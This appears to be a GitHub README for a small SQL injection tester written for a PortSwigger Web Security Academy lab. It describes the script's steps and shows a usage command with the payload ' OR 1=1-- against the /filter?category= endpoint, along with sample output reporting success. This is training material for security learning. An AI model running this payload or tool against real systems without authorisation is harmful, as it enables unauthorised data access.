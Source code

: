 # 🔐 SQL Injection Tester – Web Security Academy Lab

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](hhttps://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `payload`: The SQL injection payload to test.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and checks the response for a known keyword (e.g., `"paintball"`).
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 retrieveHiddenData.py https://0a1500dd03efd63e802c7b46004200a2.web-security-academy.net "' OR 1=1--"
```

### ✅ Sample Output

```
(+) Targeting: https://0a1500dd03efd63e802c7b46004200a2.web-security-academy.net
(+) Endpoint: /filter?category=
(+) Testing payload: ' OR 1=1--
(+) Full request URL: https://0a1500dd03efd63e802c7b46004200a2.web-security-academy.net/filter?category=' OR 1=1--

[+] SQL injection successful!
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the word `"paintball"` to determine success. You can modify this keyword in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

